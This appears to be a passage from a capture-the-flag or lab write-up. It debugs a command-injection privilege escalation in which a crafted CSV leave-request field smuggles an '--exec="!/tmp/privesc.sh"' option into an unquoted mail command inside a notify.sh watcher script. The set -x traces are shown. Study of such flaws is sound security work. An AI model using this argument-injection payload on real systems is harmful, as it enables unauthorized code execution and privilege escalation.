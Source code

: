 - the command used in the `notify.sh` script was: 
    ```bash
    inotifywait --quiet --monitor --event modify /var/www/private/leave_requests.csv | while read; do
            change=$(tail -1 /var/www/private/leave_requests.csv)
            name=`echo $change | awk -F, '{print $1}'`
            echo -e "You have a new leave request to review!\n$change" | mail -s "Leave Request: "$name christine
    done
    ```

    debugging with `set -x`:
    
    - `name=$(echo '\ --exec="!/tmp/privesc\.sh" -u' | awk -F, '{print $1}')`

        ```bash
        <xec="!/tmp/privesc\.sh" -u' | awk -F, '{print $1}')
        ++ awk -F, '{print $1}'
        ++ echo '\ --exec="!/tmp/privesc\.sh" -u'
        + name='\ --exec="!/tmp/privesc\.sh" -u'
        ```
    
    - `mail -s "Leave Request: "$name christine`
    
        ```bash
        + mail -s 'Leave Request: \' '--exec="!/tmp/privesc\.sh"' -u christine
        ```

        I then get server side this command: `mail -s 'Leave Request: \' '--exec="!/tmp/privesc\.sh"' -u christine`

        I thought the space before the `--exec` was being ignored so I added a `\ `

        here is the final command that is actually executed: `mail -s Leave Request: '--exec="!/tmp/privesc\.sh"' -u christine`


